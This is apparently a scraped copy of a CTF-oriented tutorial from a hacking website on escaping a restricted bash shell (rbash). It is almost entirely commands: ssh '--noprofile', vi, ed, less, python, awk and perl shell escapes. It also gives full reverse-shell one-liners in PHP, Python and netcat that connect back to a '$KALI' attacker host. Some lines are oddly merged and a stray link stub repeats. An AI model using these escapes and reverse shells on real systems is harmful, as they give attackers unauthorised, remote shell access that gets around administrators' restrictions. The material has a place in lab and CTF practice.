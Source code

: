 https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

#### rbash escape through SSH
Our First Method is Escaping the rbash shell through ssh many ctf playing times we have ssh username and password but our shell is restricted with rbash. we can easily bypass this rbash shell using extra argument bash noprofile

```
ssh hacknos@$TARGET
```

```
echo $SHELL
```

```
cd ../
```

we can bypass the rbash shell using the no-profile extra parameter

```
ssh hackNos@<IP-Adress> -t "bash --noprofile"
```

```
cd ../
```

#### rbash escape through editors
Linux has many editors we can bypass the rbash using these editor commands

#### bypass rbash using vi editor
First, we open the vi editor then we used: set option and we create a shell name variable and in this variable, we set our bash environment location. run the command one by one

run the vi command and our vi editor is open using the set mode we can bypass the restricted rbash shell

```
vi
```

```
:set shell=/bin/bash
```

```
:shell
```
  
#### escaping rbash – ed editor
ed is another Linux editor simple we can run ed edit mode without selecting any file then we type bash path

```
cd /home
```

```
echo $SHELL
```

```
ed
```

```
!'/bin/bash'
```

```
pwd
```

#### escape rbash through reverse shell
We can bypass the rbash shell through different Linux reverse shell **Note:** before executing the reverse shell we need to start a net-cat listener.

##### rbash shell bypass – php
```
cd /
```

```
echo $SHELL
```

we open two ssh connections our cd command is currently not working before execute the reverse shell command firstly we start our netcat listener. in this case, we are using the same machine you can use your localhost IP for reverse connection

[[1._rlwrap]]

```
php -r '$sock=fsockopen("$KALI",443);exec("/bin/bash -i <&3 >&3 2>&3");'
```

After executing the reverse shell command we got the reverse connection target machine. and we successfully bypass the restricted rbash shell.

```
echo $SHELL
```

```
cd /
```

```
pwd
```

#### rbash shell bypass – python
this is another way to bypass the rbash shell using python reverse shell remember before executing the reverse shell command you need to start your netcat listener.

```
cd /
```

```
echo $SHELL
```

[[1._rlwrap]]

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```
cd /
```

```
pwd
```

#### rbash shell bypass – netcat
```
cd /home
```

```
echo $SHELL
```

[[1._rlwrap]]

```
nc  $KALI 443 -e /bin/bash
```

#### rbash escape with python
If the target system already installed any python version we run these commands for bypassing the rbash shell

```
echo $SHELL
```

```
cd ../
```

```
python -c 'import os; os.system("/bin/bash");'
```

```
python3 -c 'import os; os.system("/bin/bash");'
```

and again we escape the rbash shell using python command executing -c argument.

```
cd /home
```

```
cd ../
```

### rbash escape **Awk**
```
cd /home
```

```
echo $SHELL
```

```
awk 'BEGIN {system("/bin/bash")}' cd /home cd ~ pwd
```

```
awk 'BEGIN {system("/bin/bash")}'
```

```
cd /home
```

```
cd ~
```

```
pwd
```

### rbash escape perl
```
cd /
```

```
echo $SHELL
```

```
perl -e 'system("/bin/bash");'
```

```
cd /
```

```
cd /home
```

### rbash bypass through binary file
```
cd /
```

```
echo $SHELL
```

```
less anyfile.txt
```

```
!'bash'
```

```
cd /
```

```
cd /home
```

```
pwd
```

```
echo $SHELL
```
